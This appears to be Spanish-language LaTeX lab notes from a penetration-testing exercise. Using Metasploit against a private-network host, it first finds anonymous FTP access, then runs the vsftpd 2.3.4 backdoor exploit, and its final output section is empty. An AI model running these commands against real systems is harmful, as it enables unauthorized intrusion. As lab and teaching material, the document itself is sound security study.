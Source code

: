 \documentclass[11pt]{utalcaDoc}
\begin{document}
Para los mas contemporáneos, es mejor utilizar msfconsole directamente desde un contenedor Docker. Esta es la manera recomendada de ejecutar msfconsole de acuerdo al autor de este documento (la opinión puede cambiar dependiendo de quien lea esto):


\begin{verbatim}
docker run -it --rm metasploitframework/metasploit-framework
\end{verbatim}

\subsection{Buscando login anonimo}

Comandos: 
\begin{verbatim}
use auxiliary/scanner/ftp/anonymous
set rhosts 192.168.0.184
exploit
\end{verbatim}

Salida:

\begin{verbatim}
[+] 192.168.0.184:21      - 192.168.0.184:21 - Anonymous READ (220 (vsFTPd 2.3.4))
[*] 192.168.0.184:21      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed	
\end{verbatim}

Conclusión: Tenemos acceso anónimo.


\subsection{Backdoor}

Vamos a instalar un backdoor utilizando el acceso anónimo. Para esto primero buscamos que exploits tenemos disponibles, finalmente ejecutamos.

Comandos: 
\begin{verbatim}
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set rhosts 192.168.0.184
exploit
whoami
\end{verbatim}

Salida:
\end{document}

